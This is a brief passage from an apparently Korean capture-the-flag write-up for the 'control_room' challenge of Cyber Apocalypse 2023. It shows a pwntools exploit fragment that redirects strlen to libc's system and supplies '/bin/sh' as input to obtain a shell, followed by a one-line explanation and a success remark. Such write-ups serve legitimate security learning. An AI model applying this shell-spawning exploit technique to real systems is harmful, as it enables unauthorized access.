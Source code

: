 ```python
system = lb + libc.symbols['system']
slog("system", system)

write(system,"-",-14) # strlen -> system
p.sendline(b'q')
p.sendlineafter(b'username: ', b'/bin/sh')
p.interactive()
```

exploit 코드는, 똑같이 strlen함수를 system함수로 바꿔준 후, 입력값을 /bin/sh로 주어, 쉘을 따도록 하였다.

![image](/assets/images/Cyber Apocalypse 2023 - The Cursed Mission/control_room/control_room9.png)

성공이다.